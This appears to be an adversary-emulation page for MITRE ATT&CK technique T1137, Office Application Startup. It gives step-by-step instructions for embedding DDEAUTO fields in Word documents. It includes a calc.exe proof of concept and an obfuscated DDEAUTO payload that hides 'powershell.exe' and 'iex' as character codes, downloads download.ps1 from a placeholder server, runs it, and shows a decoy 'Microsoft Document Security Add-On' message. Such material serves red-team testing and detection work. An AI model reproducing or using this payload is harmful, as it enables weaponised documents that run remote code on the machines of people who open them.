 # Office Application Startup

MITRE ATT&CK Technique: [T1137](https://attack.mitre.org/wiki/Technique/T1137)


## DDEAUTO

1. Open Word
2. Insert tab -> Quick Parts -> Field
3. Choose = (Formula) and click ok.
4. Once the field is inserted, you should now see "!Unexpected End of Formula"
5. Right-click the Field, choose "Toggle Field Codes"
6. Paste in the code from Unicorn or SensePost
7. Save the Word document.

* [SensePost DDEAUTO](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/)

    DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

* [TrustedSec - Unicorn](https://github.com/trustedsec/unicorn)

Generate the payload and download.ps1 following the Unicorn instructions, or to make one "just work", follow the steps below.

    DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"

## Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)
